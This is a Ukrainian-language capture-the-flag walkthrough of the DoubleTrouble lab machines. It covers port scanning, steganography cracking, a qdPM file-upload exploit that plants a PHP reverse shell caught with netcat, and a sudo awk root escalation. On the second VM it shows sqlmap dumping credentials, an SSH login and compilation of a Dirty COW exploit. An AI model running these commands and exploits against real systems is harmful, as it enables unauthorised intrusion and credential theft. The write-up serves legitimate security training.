Робимо розвідку мережі та сканування портів (Enumeration)
```sh
netdiscover -r 192.168.160.0/24
```


```sh
nmap -sC -sV -Pn -p- 192.168.160.214
```
**Результат**:  
- **Port 22**: SSH (OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)).
- **Port 80**: HTTP (Apache httpd 2.4.38 (Debian)).  


Проводимо веб-розвідку та пошук прихованих директорій
Відкриваємо в браузері http://192.168.160.214.


Виявляємо доступні директорії:
```sh
dirb http://192.168.160.214
```
**Результат**:
Знаходимо доступні для перегляду директорії `backups, batch, images, secret`.


Ці директорії можуть містити в собі найбільш корисну інформацію для нас, то передивимось їх.






**Результат**:
У папочці secret знаходимо doubletrouble.jpg.
Відкриваємо


Спробуємо перевірити на прихований зміст за допомогою штструментів стеганографії **stegcracker** або **stegseek**.

Завантажуємо
```sh
wget http://192.168.160.214/secret/doubletrouble.jpg
```
Перевіряємо
```sh
stegcracker doubletrouble.jpg /usr/share/wordlists/rockyou.txt
```


**Результат**:
**doubletrouble.jpg.out**

Передивляємось зміст файлу:
```sh
cat doubletrouble.jpg.out
```
**Результат**:
- **otisrush@localhost.com**
- **otis666**
Дуже схоже на логін-пароль для входу на початковій сторінці.



Далі логінемось в панелі керування:



Після логіну бачимо панель керування:


Передивляємось дозволи користувача


Бачимо, що є можливість завантажити файли. Шукаємо експлойти для qdPMv9.1 на ресурсі exploit-DB:



Спробуємо завантажити реверсшелл для .php (сподіваємось, що немає перевірки). Для прикладу, скористаємось існуючим репозіторієм на ГітХабі: `https://github.com/pentestmonkey/php-reverse-shell`.
Вносимо відповідні зміни до **php-reverse-shell**:


Внисимо зміни в експлойт:



Запускаємо знайдений експлойт
```sh
sudo python 48146.py
```
Чекаємо, передивляємось файли в uploads, передивляємось їх по черзі та отримуємо реверс-шелл:
```sh
nc -lnvp 4321
```


Створюємо інтерактивну оболонку bash з повноцінним командним рядком:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Перевіряємо доступи і вміст директорії користувача:
```sh
sudo -l
```


```sh
ls -lah
```


**Результат**:
Є можливість запускати **awk** без пароля.

Формуємо та виконуємо відповудну команду **awk**:
```sh
sudo awk 'BEGIN { system("/bin/bash") }'
```
**Результат**:
Ми увійшли під **root** акаунтом


Перевіряємо свої дозволи за допомогою **id**, бачимо, що отримали root-права:



Передивимось root-директорію.
```sh
cd /root
ls
```


Знаходимо образ ВМ. Нам потрібно буде розгорнути цей образ як ще одну ВМ.
```sh
cp doubletrouble.ova /var/www/html/
cd /var/www/html/
ls
```


Завантажуємо цей образ на ВМ з **Kali**
```sh
wget http://192.168.160.214/doubletrouble.ova
```


Після завантаження образу нової віртаульної машини запускаємо (імпортуємо) її у ту ж підмережу, де є **Kali**. 
Знаходимо цю машинку як і раніше задопомогою **netdiscover**



Проводимо сканування:
```sh
nmap -sC -sV -Pn -p- 192.168.160.136
```
**Результат**:
- Port 22: SSH (OpenSSH 6.0p1 Debian 4+deb7u4 (protocol 2.0))
- Port 80: HTTP (Apache httpd 2.2.22 (Debian))



Відкриваємо в браузері `http://192.168.160.136`


Ми спробували кілька стандартних комбінацій імені користувача та пароля, але жодна з них не спрацювала на сторінці входу. Тому ми вирішили виконати сканування вебзастосунку з метою переліку (enumeration) файлів і каталогів на цільовому застосунку. Для сканування переліку файлів ми використали інструмент **dirb**.
```sh
dirb http://192.168.160.136
```


Оскільки результат отримали негативний, то спробуємо підключити **BurpSuit** або **Zaproxy**: Запускаємо, пробуємо залогінитись. 

**Готуємо POST запит на Калі**
**для файла**:
```plaintext
cat >> sql                         
POST /index.php HTTP/1.1
Host: 192.168.160.136
Content-Length: 36
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.160.136
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.160.136/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

uname=admin&psw=admin&btnLogin=Login
```
**для командного рядка**:
```plaintext
cat << 'EOF' >> sql
POST /index.php HTTP/1.1
Host: 192.168.160.136
Content-Length: 36
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.160.136
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.160.136/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

uname=admin&psw=admin&btnLogin=Login
EOF
```
Скануємо та виводимо список усіх баз даних (DBs)
```sh
sqlmap -r sql --dbs --random-agent --tamper=space2comment --level=3 --risk=2
```
Знайшли базу **doubletrouble**. Тепер виводимо таблиці цієї бази
```sh
sqlmap -r sql -D doubletrouble --tables --random-agent --tamper=space2comment
```
Знайшли таблицю **users**. Виводимо її стовпці (колонки)
```sh
sqlmap -r sql -D doubletrouble -T users --columns --random-agent --tamper=space2comment
```
Викачуємо (дампимо) паролі та логіни з таблиці **users**
```sh
sqlmap -r sql -D doubletrouble -T users --dump --random-agent --tamper=space2comment
```







**Результат**:
```plaintext
Database: doubletrouble
Table: users
[2 entries]
+----------+----------+
| password | username |
+----------+----------+
| GfsZxc1  | montreux |
| ZubZub99 | clapton  |
```
Інструмент виявив дві пари імен користувачів і паролів, збережених у відкритому (незашифрованому) вигляді в базі даних.
Ми використали ці дані на сторінці входу цільового застосунку, але це не спрацювало. Оскільки нам відомо, що порт SSH також відкритий, на наступному кроці ми спробуємо увійти через **SSH**, використовуючи ці облікові дані.
Далі ми спробували увійти на цільову машину через SSH. Спочатку вхід було відхилено, оскільки облікові дані були неправильними. Але друга комбінація спрацювала, що видно нижче.
```sh
ssh clapton@192.168.160.136
```


Робимо коротку перевірку:
```sh
pwd
sudo -l
ls -lah
```
**Результат**:
Знайшли файл **user.txt**.



Переглядаємо його вміст:
```sh
cat user.txt
```
**Результат**:
6CEA7A737C7C651F6DA7669109B5FB52



Оскільки для завершення **CTF-завдання** потрібно підвищити привілеї до рівня **root**, ми виконали перелік інформації про операційну систему та ядро на цільовій машині.
```sh
uname -a
```
**Результат**:
`Linux doubletrouble 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux`



Було ідентифіковано вразливість підвищення привілеїв у встановленій операційній системі. Експлойт також був публічно доступний на сайті exploit-DB, що показано нижче.
Давайте переглянемо інформацію про експлойт на сайті.





Згідно з інформацією, доступною на сайті **exploit-DB**, ми можемо виконати експлойт на вразливій цілі. Він надасть root-доступ шляхом експлуатації файлу `/etc/passwd`. Отже, завантажимо експлойт на цільову машину.
```sh
wget https://www.exploit-db.com/raw/40839
```
Команда не спрацювала



Можна скористатися такими варіантами
```sh
wget --no-check-certificate https://www.exploit-db.com/raw/40839 -O exploit.c
```
або завантажити на Kali і використати
```sh
scp 40839.c clapton@192.168.160.136:/home/clapton
```


Ми використали утиліту **wget** для завантаження експлойту, вказавши **URL exploit-DB**. Після завантаження скомпілюємо експлойт за допомогою компілятора **gcc**.
```sh
gcc -pthread 40839.c -o dirty -lcrypt
ls -lah
```


Після процесу компіляції в каталозі було створено два файли. Згідно з описом на сайті експлойту, необхідно виконати файл з назвою **dirty** і ввести новий пароль для користувача **root**.
Типове ім’я облікового запису з root-привілеями — **firefart**.
**Використані команди**:
```sh
./dirty
```


```sh
su firefart
```


Як видно вище, ми змінили пароль **root**, що надало нам доступ до цільової машини від імені користувача **root**. Це було підтверджено виконанням команди **id**.
Далі ми переглянули файли на цільовій машині вже як користувач root, щоб знайти root-прапорець і завершити завдання.
```sh
cd /root
ls
cat root.txt
```


Як видно на наведеному вище скріншоті, **root**-прапорець було знайдено в каталозі **root** на цільовій машині. Файл мав назву **root.txt**.
